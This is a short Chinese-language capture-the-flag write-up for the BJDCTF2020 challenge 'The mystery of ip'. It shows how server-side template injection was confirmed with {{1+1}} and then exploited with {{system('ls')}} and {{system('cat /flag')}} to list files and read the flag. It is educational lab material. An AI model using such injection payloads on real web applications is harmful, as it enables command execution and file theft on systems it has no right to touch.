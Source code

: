 # [BJDCTF2020]The mystery of ip

## 知识点

`SSTI`

## 解题

输入什么回显什么，测试加`'`加`or '1=1'`都回显的是本身的内容

![](./img/The mystery of ip-1.png)

测试模板注入`{{1+1}}`发现回显`2`

![](./img/The mystery of ip-2.png)

使用`php`模板注入`payload`即可

```
{{system('ls')}}
{{system('cat /flag')}}
```

